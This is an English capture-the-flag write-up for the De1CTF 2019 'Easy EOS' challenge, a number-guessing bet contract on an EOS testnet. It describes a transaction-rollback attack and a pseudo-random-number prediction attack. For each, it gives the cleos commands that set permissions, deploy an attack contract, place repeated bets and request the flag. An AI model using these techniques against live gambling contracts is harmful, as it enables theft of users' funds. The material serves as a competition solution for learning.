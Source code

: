 [中文](./README_zh.md) [English](./README.md)  
>  Congratulations to Whitzard、$wagger、NoSugar、AAA for winning the game.

## Problem

Title: Easy EOS

Author: Gaia

Description:

```shell  
Try to win this game.  
account: de1ctf111eos  
EOS Jungle2.0 Testnet  
You need to win at least 10 times.  
You can ask for a flag with the sendmail function. (username: your account,
address: your email address)

hint for [Easy EOS]: the num of bet action is in range 0-4. Decompilation is
optional.  
hint for [Easy EOS]: if you lost，you can't bet anymore with this account.  
```

## Answer

### Answer one ：*Roll Back* Attack

After observing, we found that the bet action completed the guessing number
game in one transaction. If it wins, the number of wins in the users table
plus 1; if lost, the number of lost in the users table plus 1.

By deploying contracts, we can use the "inline action" method to make guess
numbers and judgments. The first action is to guess the number, and the second
action is to judge whether we win or not. If we win, pass; if we lose, throw
an exception and roll back the entire transaction.

The way to attack

```shell  
# set permissions  
cleos set account permission gllrgjlqclkp active '{"threshold": 1,"keys":
[{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight":
1}],"accounts":[{"permission":{"actor":"gllrgjlqclkp","permission":"eosio.code"},"weight":1}]}'
owner -p gllrgjlqclkp@owner  
# Compile contract  
cd attack4  
eosio-cpp -o attack4.wasm attack4.cpp  
# Deploy contract  
cleos set contract gllrgjlqclkp . -p gllrgjlqclkp@active  
# Call the makebet method multiple times until the number of account wins is
greater than or equal to 10  
cleos push action gllrgjlqclkp makebet '[]' -p gllrgjlqclkp@active  
# Ask for a flag  
cleos push action de1ctftest11 sendmail '["gllrgjlqclkp",
"[email protected]"]' -p gllrgjlqclkp@active  
```

### Answer two ：Pseudo random number

Decompile the contract, get the algorithm that generates the pseudo-random
number, deploy the corresponding contract. In a transaction, calculate the
random number to be generated, and then use the random number to call the bet
action of the target contract.

The way to attack

```shell  
# set permissions  
cleos set account permission btdaciaibmfp active '{"threshold": 1,"keys":
[{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight":
1}],"accounts":[{"permission":{"actor":"btdaciaibmfp","permission":"eosio.code"},"weight":1}]}'
owner -p btdaciaibmfp@owner  
# Compile contract  
cd attack  
eosio-cpp -o attack.wasm attack.cpp  
# Deploy contract  
cleos set contract btdaciaibmfp . -p btdaciaibmfp@active  
# Call makebet method 10 times  
cleos push action btdaciaibmfp makebet '[]' -p btdaciaibmfp@active  
# Ask for a flag  
cleos push action de1ctftest11 sendmail '["btdaciaibmfp",
"[email protected]"]' -p btdaciaibmfp@active  
```

Original writeup (https://github.com/De1ta-
team/De1CTF2019/tree/master/writeup/misc/Easy%20EOS).